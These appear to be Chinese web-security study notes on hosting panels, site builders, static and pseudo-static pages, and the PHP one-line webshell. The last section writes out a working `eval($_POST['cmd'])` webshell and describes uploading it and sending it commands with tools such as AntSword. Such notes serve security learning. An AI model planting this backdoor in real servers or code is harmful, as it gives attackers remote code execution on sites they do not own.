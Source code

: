 

#宝塔或Phpstudy
-
原理：打包类集成化环境，权限配置或受面板控制。  
影响：攻击者权限对此区别  

#建站分配站
-
原理：利用别人域名模板建立  
影响：实质安全测试非目标资产（本质上你测试的是建站平台的服务器）  
举例：建站平台，凡科建站<https://jz.fkw.com/>  

#静态Web
-
例子：Web前端设计（静态的html网页）  
原理：数据没有传输性（js传输不算）  
影响：无任何漏洞  

Tip：伪静态-动态转为静态技术
-
>简单来说，就是让动态网页（通常是通过服务器端脚本语言生成内容、处理请求的网页，如基于 PHP、ASP.NET等开发的网页）在外观上呈现出静态网页（直接由 HTML 文件构成，内容相对固定，无需服务器端实时处理的网页）的形式，但其本质上依然是动态网页，只是通过一定的技术手段对 URL 进行改写，使其看起来更像静态网页。

>其实现原理主要是借助服务器端的相关模块或配置，当用户访问改写后的伪静态 URL 时，服务器会根据预设的规则将该 URL 解析还原成对应的动态网页请求，然后按照正常的动态网页处理流程，如执行脚本代码、查询数据库等操作，生成相应的网页内容并返回给用户。例如，原本一个动态网页的 URL 可能是```example.com/index.php?id=123```，经过伪静态处理后变成了```example.com/article/123.html```，从形式上看更简洁、更符合搜索引擎友好以及用户友好的特点。


PHP一句话木马
-
### **PHP一句话木马的基本形式**
PHP一句话木马的核心是利用PHP的 `eval()` 函数或类似功能，执行用户输入的任意代码。以下是一个典型的一句话木马示例：

```php
<?php @eval($_POST['cmd']); ?>
```

#### 解释：
1. `<?php ... ?>`：PHP代码的起始和结束标记。
2. `@`：错误抑制符，用于隐藏可能的错误信息，增加隐蔽性。
3. `eval()`：PHP函数，用于执行字符串形式的PHP代码。
4. `$_POST['cmd']`：从HTTP POST请求中获取名为 `cmd` 的参数值。
5. 攻击者可以通过发送POST请求，将任意PHP代码传递给 `cmd` 参数，服务器会执行这些代码。

---

### **一句话木马的使用方式**
1. **上传木马文件**：
   - 攻击者通过文件上传漏洞或其他方式，将一句话木马文件上传到目标服务器。
   - 例如，将上述代码保存为 `shell.php` 并上传到服务器。

2. **连接木马**：
   - 攻击者使用工具（如中国菜刀、蚁剑、Cknife等）或手动发送HTTP请求与木马文件交互。
   - 例如，发送POST请求：
     ```http
     POST /shell.php HTTP/1.1
     Host: example.com
     Content-Type: application/x-www-form-urlencoded
     ```
     cmd=echo 'Hello, World!';
     